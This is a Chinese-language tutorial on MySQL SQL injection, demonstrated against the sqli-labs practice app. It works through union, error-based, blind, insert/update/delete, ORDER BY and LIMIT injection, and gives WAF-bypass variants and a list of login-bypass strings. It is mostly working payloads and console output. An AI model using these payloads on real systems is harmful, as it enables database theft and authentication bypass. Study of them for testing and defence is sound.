





前言
接着深入学习 SQL 注入。本文源自某位前辈的笔记，author：404
0x00 注入的产生
程序在开发的时候没对用户的数据过滤，把用户的数据都当做可信数据。
过滤不严格。
数据库配置不当。
转义不当。
0x01 注入的类型
常见的注入我们可以归纳为数字型，字符型，搜索型,盲注等。
select * from admin where id = $id; //数字型 注入
select * from admin where id = '$id'; //字符型
select * from admin where id = "$id";
select * from admin where id = ($id);
select * from admin where id = ('$id');
select * from admin where id = ("$id");
select * from admin where username like '%adm%';
select * from admin where username like ('%adm%');
select * from admin where id = $id limit 0,1;
select * from admin order by $id;
select * from admin order by limit 0,1 $id;
select * from admin order by id limit 1,1 $id;
insert注入
update注入
delete注入
二次注入
等等
实际环境中我们可能还会遇到更为复杂的 sql 注入语句，我们就要想办法闭合它。
0x03 寻找注入的一些注意
如何寻找注入是一门艺术，黑盒测试它建立在对每个参数的 fuzz 上，当然如果你有开发经验，拿到一套程序就能敏锐的发现注入，
但凡涉及到用户交换地方都将是注入的重灾区，所以你可以适当的学习一下开发。
当网站为成熟的 cms 框架时不建议直接黑盒注入，可以直接审计源码，或者搜索漏洞。
判断为自己开发的系统，目标不是很重要可以尝试使用 AWVS 等工具。
信息收集的重要性，可能它的源码就在 GitHub 上，或者一个备份文件。
0x00 数据库版本收集与路径
识别数据库版本有助于我们进一步对数据库进行注入我们可以用到 version() @@version /*!版本号*/
/*!*/ 意为在 xxx 版本之上执行 我的版本是 5.6 所以可以执行
mysql> SELECT * FROM admin WHERE id = 1 union select 1,version(),3;
+------+----------+----------+
| id | username | password |
+------+----------+----------+
| 1 | admin | admin |
| 1 | 5.6.30-1 | 3 |
+------+----------+----------+
2 rows in set (0.00 sec)
mysql> SELECT * FROM admin WHERE id = 1 union select 1,@@version,3;
+------+----------+----------+
| id | username | password |
+------+----------+----------+
| 1 | admin | admin |
| 1 | 5.6.30-1 | 3 |
+------+----------+----------+
2 rows in set (0.01 sec)
mysql> SELECT * FROM admin WHERE id = 1 union select 1,/*!40000 user()*/,3;
+------+----------------+----------+
| id | username | password |
+------+----------------+----------+
| 1 | admin | admin |
| 1 | root@localhost | 3 |
+------+----------------+----------+
2 rows in set (0.00 sec)
路径的话一般用@@datadir就可以了然后大概反猜下网站路径 操作系统 @@version_compile_os
0x01 用户,链接信息
system_user() //系统用户名user() // 用户名current_user() //当前用户名session_user() //链接数据库的用户名
mysql> select * from users where id =1 union select system_user(),session_user(),current_user();
+--------------------+--------------------+----------+
| id | username | password |
+--------------------+--------------------+----------+
| 1 | Dumb | Dumb |
| root@192.168.1.101 | root@192.168.1.101 | root@% |
+--------------------+--------------------+----------+
2 rows in set (0.00 sec)
读取 host 与 user
mysql> select * from users where id =1 union select 1,host,user from mysql.user;
+----+-----------+----------+
| id | username | password |
+----+-----------+----------+
| 1 | Dumb | Dumb |
| 1 | % | root |
| 1 | 127.0.0.1 | root |
| 1 | ::1 | root |
| 1 | localhost | root |
+----+-----------+----------+
5 rows in set (0.00 sec)
0x02 文末
通过以上信息还能大概判断下是不是站库分离之类的
0x00 初识注入 bypass
在 MySQL 里面注入和搭建环境来其实差不多，推荐使用 sqli-labs 来练练手，网上一堆的方法也是我们从学以来用到的
加引号 报错 and 1=1 and 1=2 然后 SQLmap 一丢有 waf 就凉凉，可能 and 的时候就凉了，所以手工是也算个必修课吧。
直接用 and 1=1 一类的多属于 数字型注入 select * from admin where id = $id; 被包裹起来的就不行的，所以
一般要看报错的语句，当然也不是加个引号没报错就没了，具体分很多情况的。（废话多了点顺便讲清楚吧）
0x01 第一个注入
and 是一个逻辑符号 要求两边同时成立,所以 and 这边是什么可以尽情发挥大家的才能 比如 and true=1 ？，为什么要这么写，因为某狗判断的就是 and 这边的字符类型
大家可以去了解了解 MySQL 隐式转化。
mysql> select * from users where id = "1" and 1=1;
+----+----------+----------+
| id | username | password |
+----+----------+----------+
| 1 | Dumb | Dumb |
+----+----------+----------+
1 row in set (0.00 sec)
mysql> select * from users where id = "1" and 1=2;
Empty set (0.00 sec)
说了这么多我们就拿 sqli-labs 的第一关来演示一下

看到报错语句
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''1'' LIMIT 0,1' at line 1
其中''1'' LIMIT 0,1' 最外层的是它出错给你的字符串不用看，所以为'1'' LIMIT 0,1 应为我们的单引号没闭合所以造成了出错 同时知道了 它的后面有个 LIMIT 0,1 所以反推大概的语句为 select x,x from xxx where x='id' limit 0,1 看到报错信息我们应该要能反推它的语句，有利于我们进一步注入，下面使用联合注入。
首先都是老套路 order by xx 来判断它的列数，因为 order by 是根据列来排序的 （排序第几列）
http://127.0.0.1/sqli/Less-1/?id=-2' union select 1,schema_name,3 from information_schema.schemata limit 2,1 -- +
通过 limit 0,1 来控制前端的显位的数据(从第 0 条取一条) 如果是过滤逗号 。 想用分页可以使用 1 offset 1 意思是从第 1 条开始选一条当然还有 join 分页这些都在后面讲了。
http://127.0.0.1/sqli/Less-1/?id=-2' union select 1,group_concat(table_name),3 from information_schema.tables where table_schema='security' -- +当然你想直接爆当前的库的表 不妨这样写 table_schema=database() 为了避免单引号你也可以使用 hex 后的数据 table_schema=0x7365637572697479
使用group_concat() 函数把表名都聚合起来，更加方便。
http://127.0.0.1/sqli/Less-1/?id=-2' union select 1,group_concat(column_name),3 from information_schema.columns where table_name=0x7573657273 -- +爆出字段
http://127.0.0.1/sqli/Less-1/?id=-2' union select 1,group_concat(username,0x7C,password),3 from users-- +
爆出数据 在 group_concat() 被过滤的情况下我们可以使用其他的来替换 推荐大家查阅 mysql 函数表
当我们使用 information_schema.schemata 时被拦截了,我们可以这样绕过
`information_schema`.`schemata `
information_schema/**/.schemata
information_schema/*!*/.schemata
information_schema%0a.schemata
也有人遇到过这种情况 users 表被拦截 怎么绕过呢，其实也一样
security.users 数据库名 加表名
security.`users`
0x00 报错注入
报错注入在我们不能联合注入的时候也是非常重要的网上给我们提供了很多中报错注入 这里直接引用
https://www.cnblogs.com/wocalieshenmegui/p/5917967.html 一文了
1.floor()
select * from test where id=1 and (select 1 from (select count(*),concat(user(),floor(rand(0)*2))x from information_schema.tables group by x)a);
2.extractvalue()
select * from test where id=1 and (extractvalue(1,concat(0x7e,(select user()),0x7e)));
3.updatexml()
select * from test where id=1 and (updatexml(1,concat(0x7e,(select user()),0x7e),1));
4.geometrycollection()
select * from test where id=1 and geometrycollection((select * from(select * from(select user())a)b));
5.multipoint()
select * from test where id=1 and multipoint((select * from(select * from(select user())a)b));
6.polygon()
select * from test where id=1 and polygon((select * from(select * from(select user())a)b));
7.multipolygon()
select * from test where id=1 and multipolygon((select * from(select * from(select user())a)b));
8.linestring()
select * from test where id=1 and linestring((select * from(select * from(select user())a)b));
9.multilinestring()
select * from test where id=1 and multilinestring((select * from(select * from(select user())a)b));
10.exp()
select * from test where id=1 and exp(~(select * from(select user())a));
每个一个报错语句都有它的原理 比如 exp() 报错的原理 ,手册说到 exp 是一个数学函数 取 e 的 x 次方，当我们输入的值大于 709 就会报错 然后~取反它的值总会大于 709 所以报错。
简单的用报错语句来注入一下把这里我就利用函数 updatexml()
updatexml (XML_document, XPath_string, new_value);
XML_document: 是String格式，为XML文档对象的名称，文中为Doc
XPath_string : Xpath
new_value :String格式，替换查找到的符合条件的数据
其中关键点就是XPath_string 这块了 因为我们传入的的不是XPath_string,为什么要使用concat 这个函数呢，因为它是个连接函数你不用的话(updatexml(1,(select user()),1)) 这样也可以但是需要字符中有特殊字符，才会报错，同时它会被中间的特殊字符截断，所以需要用到concat用特殊字符给他连接起来。
爆库：
http://127.0.0.1/sqli/Less-1/?id=1' and updatexml(1,(select concat(0x7e, (schema_name),0x7e) FROM information_schema.schemata limit 2,1),1) -- +
爆表：
http://127.0.0.1/sqli/Less-1/?id=1' and updatexml(1,(select concat(0x7e, (table_name),0x7e) from information_schema.tables where table_schema='security' limit 3,1),1) -- +
爆字段：
http://127.0.0.1/sqli/Less-1/?id=1' and updatexml(1,(select concat(0x7e, (column_name),0x7e) from information_schema.columns where table_name=0x7573657273 limit 2,1),1) -- +
爆数据：
http://127.0.0.1/sqli/Less-1/?id=1' and updatexml(1,(select concat(0x7e, password,0x7e) from users limit 1,1),1) -- +
在报错里面直接使用 MySQL 最基本的查表就可以了,你也可以把 concat 放在外面 updatexml(1,concat(0x7e, (select password from users limit 1,1),0x7e),1)
自己灵活多变，这里我值得注意的是它加了连接字符 md5 只能爆出 31 位,你可以用分割函数分割出来。
substr(string string,num start,num length);
string为字符串
start为起始位置
length为长度
http://127.0.0.1/sqli/Less-1/?id=1' and updatexml(1,concat(0x7e, substr((select md5(password) from users limit 1,1),1,16),0x7e),1) -- +
因为我密码不是 md5 的 所以我加了个密来分割。
0x00 盲注
盲注我这里只归纳为
时间盲注
布尔盲注
其实在如今的实际环境中一般盲注的情况毕竟多,时间盲注太费时间 同时对网络要求比较高，二分，dnslog,等等可以加快注入的进程。
0x01 盲注中值得注意的问题
盲注中使用 and 你得确定你查询的值得存在 。
在返回多组数据的情况下，你的延时不再是 单纯的
sleep(5)他将根据你返回的数据条数来反复执行在如同搜索型时尽量搜索存在且数目较少的关键词
尽量不要使用 or
至于以上为什么会出现这种原因 推荐大家看看 这篇文章讲的很清楚https://www.t00ls.net/thread-45590-1-10.html
0x02 简单时间盲注
时间盲注也叫延时注入 一般用到函数 sleep() BENCHMARK() 还可以使用笛卡尔积(尽量不要使用,内容太多会很慢很慢),查阅 mysql 手册会发现很多东西
一般时间盲注我们还需要使用条件判断函数
if()
if（expre1，expre2，expre3） 当 expre1 为 true 时，返回 expre2，false 时，返回 expre3
盲注的同时也配合着 mysql 提供的分割函，与正则函数 like 函数，比较函数等等，还是那句话多看手册。
substr
substring
left
......
我们一般喜欢把分割的函数编码一下，当然不编码也行，编码的好处就是可以不用引号 常用到的就有 ascii() hex() 等等benchmark()其作用是来测试一些函数的执行速度。benchmark()中带有两个参数，第一个是执行的次数，第二个是要执行的函数或者是表达式。
mysql> select * from users where id =1 and if((substr((select user()),1,1)='r'),sleep(5),1);
Empty set (5.01 sec)
mysql> select * from users where id =1 and if((substr((select user()),1,1)='r1'),sleep(5),1);
+----+----------+----------+
| id | username | password |
+----+----------+----------+
| 1 | Dumb | Dumb |
+----+----------+----------+
1 row in set (0.00 sec)
mysql> select * from users where id =1 and if((substr((select user()),1,1)='r'),BENCHMARK(20000000,md5('a')),1);
Empty set (5.15 sec)
case when then else end
mysql> select * from users where id =1 and case when (substr((select user()),1,1)="rr") then sleep(3) else 1 end;
+----+----------+----------+
| id | username | password |
+----+----------+----------+
| 1 | Dumb | Dumb |
+----+----------+----------+
1 row in set (0.00 sec)
mysql> select * from users where id =1 and case when (substr((select user()),1,1)="r") then sleep(3) else 1 end;
Empty set (3.00 sec)
不推荐使用笛卡尔积当数据过多时会造成 DOS。
0x03 布尔盲注
盲注思路的思路很多 比如正则匹配,比较函数,运算符，推荐大家可以看看
https://www.anquanke.com/post/id/170626
- 直接通过字符串截取对比，类似函数很多后面做个总结吧
http://127.0.0.1/sqli/Less-1/?id=1' and substr((select user()),1,1)='r' -- +- 用
IFNULL()函数
http://127.0.0.1/sqli/Less-1/?id=1' and IFNULL((substr((select user()),1,1)='r'),0) -- +
- 使用 比较函数
strcmp()
1.
http://127.0.0.1/sqli/Less-1/?id=1' and strcmp((substr((select user()),1,1)='r'),1) -- +
http://127.0.0.1/sqli/Less-1/?id=1' and strcmp((substr((select user()),1,1)='r'),0) -- +
2.
mysql> select * from users where id =1 and 0=strcmp((substr((select user()),1,1)),'o');
Empty set (0.00 sec)
mysql> select * from users where id =1 and 0=strcmp((substr((select user()),2,1)),'o');
+----+----------+----------+
| id | username | password |
+----+----------+----------+
| 1 | Dumb | Dumb |
+----+----------+----------+
1 row in set (0.00 sec)
0x04 小技巧
在没有办法的情况下必须使用到 or 的延时注入不如试试子查询,他也只将延时 5s
http://192.168.130.135/Less-1/?id=1' or if((substr((select user()),1,1)='r'),((select sleep(5) from information_schema.schemata as b)),1);-- +
0x00 insert,delete,update 注入
insert,delete,update 主要是用到盲注和报错注入,此类注入点不建议使用 sqlmap 等工具,会造成大量垃圾数据，和其他情况。
0x01 insert,delete,update
insert
可以看到假如没闭合是会产生很多垃圾数据的，所以这类注入建议手工或者自己写工具。
一般这种注入会出现在 注册、ip 头、留言板等等需要写入数据的地方,同时这种注入不报错一般较难发现。
- 报错
mysql> insert into admin (id,username,password) values (2,"or updatexml(1,concat(0x7e,(version())),0) or","admin");
Query OK, 1 row affected (0.00 sec)
mysql> select * from admin;
+------+-----------------------------------------------+----------+
| id | username | password |
+------+-----------------------------------------------+----------+
| 1 | admin | admin |
| 1 | and 1=1 | admin |
| 2 | or updatexml(1,concat(0x7e,(version())),0) or | admin |
+------+-----------------------------------------------+----------+
3 rows in set (0.00 sec)
mysql> insert into admin (id,username,password) values (2,""or updatexml(1,concat(0x7e,(version())),0) or"","admin");
ERROR 1105 (HY000): XPATH syntax error: '~5.5.53'
- 盲注
int 型 可以使用 运算符 比如 加减乘除 and or 异或 移位等等
mysql> insert into admin values (2+if((substr((select user()),1,1)='r'),sleep(5),1),'1',"admin");
Query OK, 1 row affected (5.00 sec)
mysql> insert into admin values (2+if((substr((select user()),1,1)='p'),sleep(5),1),'1',"admin");
Query OK, 1 row affected (0.00 sec)
字符型注意闭合不能使用 and
mysql> insert into admin values (2,''+if((substr((select user()),1,1)='p'),sleep(5),1)+'',"admin");
Query OK, 1 row affected (0.00 sec)
mysql> insert into admin values (2,''+if((substr((select user()),1,1)='r'),sleep(5),1)+'',"admin");
Query OK, 1 row affected (5.01 sec)
注意盲注产生大量垃圾数据。
delete
报错注入同上
值得注意的时 delete 注入很危险，很危险，很危险。
语句不当 将会亲人泪两行 or 1=1 因为 1=1 为 true 所以每一行被删除了, 他以前用 sqlmap 一把梭 现在过的很好，每顿都有人送饭到手上。
所以在 delete 注入时使用 or 一定要为 false
mysql> delete from admin where id =3 or 1=1;
Query OK, 4 rows affected (0.00 sec)
报错注入
mysql> delete from admin where id =-2 or updatexml(1,concat(0x7e,(version())),0);
ERROR 1105 (HY000): XPATH syntax error: '~5.5.53'
盲注
or 配上 if() 函数使用不当 再提下 if(expr1,expr2,expr3)，如果 expr1 的值为 true，返回 expr2 的值，如果 expr1 的值为 false，
返回 expr3 的值。
mysql> delete from admin where id =-2 or if((substr((select user()),1,1)='r4'),sleep(5),1);
Query OK, 3 rows affected (0.00 sec)
所以 delete 中 or 的正确使用方法 (or 右边要为 false)
mysql> delete from admin where id =-2 or if((substr((select user()),1,1)='r4'),sleep(5),0);
Query OK, 0 rows affected (0.00 sec)
mysql> delete from admin where id =-2 or if((substr((select user()),1,1)='r'),sleep(5),0);
Query OK, 0 rows affected (5.00 sec)
update
与上面的类似
mysql> select * from admin;
+------+----------+----------+
| id | username | password |
+------+----------+----------+
| 2 | 1 | admin |
| 2 | 1 | admin |
| 2 | 1 | admin |
| 2 | admin | admin |
+------+----------+----------+
4 rows in set (0.00 sec)
mysql> update admin set id="5"+sleep(5)+"" where id=2;
Query OK, 4 rows affected (20.00 sec)
Rows matched: 4 Changed: 4 Warnings: 00x02 文末
update，insert 注入怎么找，我们可以尝试性插入、引号、双引号、转义符\ 让语句不能正常执行，然后如果插入失败，更新失败，然后深入测试确定是否存在注入
0x00 二次注入
二次注入的原理是 sql 语句没有被转义直接存入数据库，然后在被读取查询而导致的。
二次注入在 php 种通常见于，插入时被addslashes() get_magic_quotes_gpc 等等转义，但是写入数据库时还是使用原来的数据，二次注入造成原因时多种多样的。
在没有被单引号包裹的 sql 语句下，我们可以用 16 进制编码他，这样就不会带有单引号等。
mysql> insert into admin (id,name,pass) values ('3',0x61646D696E27313131,'11');
Query OK, 1 row affected (0.00 sec)
mysql> select * from admin;
+----+-----------+-------+
| id | name | pass |
+----+-----------+-------+
| 1 | admin | admin |
| 2 | admin'111 | 11111 |
| 3 | admin'111 | 11 |
+----+-----------+-------+
4 rows in set (0.00 sec)
想要具体了解这个 大家可以做做 sqli-labs 24 课 ,二次注入在没有源码的情况比较难发现，通常见于注册,
0x01 宽字节注入
1.没使用宽字节
%27 -> %5C%27
2. 试用宽字节
%df%27 -> %df%5c%27 -> 運'在我们输入单引号时
addslashes()或者get_magic_quotes_gpc给我们的单引号加入了转义字符\就变成了\'我们输入经过转换后由于编码的不同把
%df%5c转换为了一个汉字。
想要具体了解找个的可以 做做 sqli-labs 33 课
0x00 order by 注入
这是一种特殊的注入 sql 语句为 select * from admin order by $id 我们一般用 order by 来判断他的列数，其实他就是一个依照第几个列来排序的过程。
order by 注入是不能 直接使用and 1=1 来判断的，他需要用到条件语句。
mysql> select * from admin order by id;
+------+----------+----------+
| id | username | password |
+------+----------+----------+
| 1 | cdmin | bdmin |
| 2 | admin | ddmin |
| 3 | bdmin | fdmin |
+------+----------+----------+
3 rows in set (0.00 sec)
mysql> select * from admin order by username;
+------+----------+----------+
| id | username | password |
+------+----------+----------+
| 2 | admin | ddmin |
| 3 | bdmin | fdmin |
| 1 | cdmin | bdmin |
+------+----------+----------+
3 rows in set (0.00 sec)
盲注
- 布尔
简单的判断
mysql> select * from admin order by if(1=1,username,password);
+------+----------+----------+
| id | username | password |
+------+----------+----------+
| 2 | admin | ddmin |
| 3 | bdmin | fdmin |
| 1 | cdmin | bdmin |
+------+----------+----------+
3 rows in set (0.00 sec)
mysql> select * from admin order by if(1=3,username,password);
+------+----------+----------+
| id | username | password |
+------+----------+----------+
| 1 | cdmin | bdmin |
| 2 | admin | ddmin |
| 3 | bdmin | fdmin |
+------+----------+----------+
3 rows in set (0.00 sec)
简单的注入
mysql> select * from admin order by if((substr((select user()),1,1)='r1'),username,password);
+------+----------+----------+
| id | username | password |
+------+----------+----------+
| 1 | cdmin | bdmin |
| 2 | admin | ddmin |
| 3 | bdmin | fdmin |
+------+----------+----------+
3 rows in set (0.00 sec)
mysql> select * from admin order by if((substr((select user()),1,1)='r'),username,password);
+------+----------+----------+
| id | username | password |
+------+----------+----------+
| 2 | admin | ddmin |
| 3 | bdmin | fdmin |
| 1 | cdmin | bdmin |
+------+----------+----------+
3 rows in set (0.00 sec)
http://127.0.0.1/sqli/Less-46/?sort=if((substr((select user()),1,1)='r'),username,password)
- 时间盲注
时间盲注不能直接简单的sleep() 因为他会对每条内容来执行你的语句，所以会造成 dos 测试获取速度慢等问题，这时候我们需要用到子查询
mysql> select * from admin order by if((substr((select user()),1,1)='r'),sleep(5),password);
+------+----------+----------+
| id | username | password |
+------+----------+----------+
| 3 | bdmin | fdmin |
| 2 | admin | ddmin |
| 1 | cdmin | bdmin |
+------+----------+----------+
3 rows in set (15.01 sec)
我们写一条简单的子查询试试
mysql> select * from admin order by if((substr((select user()),1,1)='r'),(select 1 from (select sleep(2)) as b),password);
+------+----------+----------+
| id | username | password |
+------+----------+----------+
| 3 | bdmin | fdmin |
| 2 | admin | ddmin |
| 1 | cdmin | bdmin |
+------+----------+----------+
3 rows in set (2.01 sec)
报错注入
http://127.0.0.1/sqli/Less-46/?sort=(extractvalue(1,concat(0x3a,version())),1)
mysql> select * from admin order by (extractvalue(1,concat(0x3a,version())),1);
ERROR 1105 (HY000): XPATH syntax error: ':5.5.53'
0x01 From
from 后面的注入比较少 还是提一下
select * from $id;
可以结合 order by 来注入
可以使用联合注入来注入
mysql> select * from admin union select 1,user(),3;
+------+----------------+----------+
| id | username | password |
+------+----------------+----------+
| 3 | bdmin | fdmin |
| 2 | admin | ddmin |
| 1 | cdmin | bdmin |
| 1 | root@localhost | 3 |
+------+----------------+----------+
4 rows in set (0.02 sec)
方法跟普通注入一样的一样自己加上表名
0x02 limit
这种注入也不是很常见，依照 https://rateip.com/blog/sql-injections-in-mysql-limit-clause/ 来提一下
mysql> select * from admin where id >0 limit 0,1 $id
如何利用呢 大佬们已经给出方法了 用 PROCEDURE ANALYSE 配合报错注入,所以多看文档，如果你想提升下自己的水平
mysql> select * from admin where id >0 order by id limit 0,1 procedure analyse(extractvalue(rand(),concat(0x3a,version())),1);
ERROR 1105 (HY000): XPATH syntax error: ':5.5.53'
ERROR:
No query specified
这里延时只能使用BENCHMARK() 如同
select * from admin where id >0 order by id limit 0,1 PROCEDURE analyse(extractvalue(rand(),concat(0x3a,(if(1=1,benchmark(2000000,md5(404)),1)))),1);
0x00 再谈万能密码登陆
万能密码基本大家都用过，各种各样的，如下
'or 1=1/*
"or "a"="a
"or 1=1--
"or"="
"or"="a'='a
"or1=1--
"or=or"
''or'='or'
') or ('a'='a
'.).or.('.a.'='.a
'or 1=1
'or 1=1--
'or 1=1/*
'or"="a'='a
'or' '1'='1'
'or''='
'or''=''or''='
'or'='1'
'or'='or'
'or.'a.'='a
'or1=1--
1'or'1'='1
a'or' 1=1--
a'or'1=1--
or 'a'='a'
or 1=1--
or1=1--
其实根据前面的文章我们很容易看出 他的原理就是让我们的条件恒成立 至于为什么这么多种，就是根据语句的形势来闭合的，
这里面涉及到运算符的优先级，MySQL 运算的特性，然后下面我们以几个例子来做做最另类的万能密码
mysql> select * from admin where name = '/*' and pass = '*/';
Empty set (0.00 sec)
注释绕过
mysql> select * from admin where name = ''or 1=1-- ' and pass = '123';
-> ;
+----+-----------+-------+
| id | name | pass |
+----+-----------+-------+
| 1 | admin | admin |
| 2 | admin'111 | 11111 |
| 3 | admin'111 | 11 |
| 4 | admin'111 | 11 |
+----+-----------+-------+
4 rows in set (0.00 sec)
经典的or 1=1-- 其中 1=1 恒为 true 然后导致每条数据都成立返回
那么知道了这个原理怎么构造一个简单的万能密码呢
mysql> select ''=0
-> ;
+------+
| ''=0 |
+------+
| 1 |
+------+
1 row in set (0.00 sec)
mysql> select 1=0=0;
+-------+
| 1=0=0 |
+-------+
| 1 |
+-------+
1 row in set (0.30 sec)
我们可以看到在 mysql 中 空字符串’’ 等于 0 为 1 也就是 true 知道这个特性我们可以来构造我们的万能密码了
mysql> select * from admin where name = ''|0#' and pass = '123';
-> ;
+----+-----------+-------+
| id | name | pass |
+----+-----------+-------+
| 1 | admin | admin |
| 2 | admin'111 | 11111 |
| 3 | admin'111 | 11 |
| 4 | admin'111 | 11 |
+----+-----------+-------+
4 rows in set, 5 warnings (0.00 sec)
仅仅用了 '|0# 个字符就能达到我们的效果 其他方法大家还可以测试,因为是自己发现的，然后问了几个师傅 发现 ctf 已经别人都用过了 ，不得不承认自己的知识量远远不够。
0x00 读写文件与堆叠查询
MySQL 中 在在 mysql 5.6.34 版本以后 secure_file_priv 的值默认为 NULL ,而 secure_file_priv 为 null 那么我们就不能导出文件，以下都建立在
secure_file_priv 的默认值被修改为无才能利用，且这个只能手工修改配置文件不能用 sql 语句，也就是想直接导出需要管理员不知道干了什么帮你修改好这个权限才行。
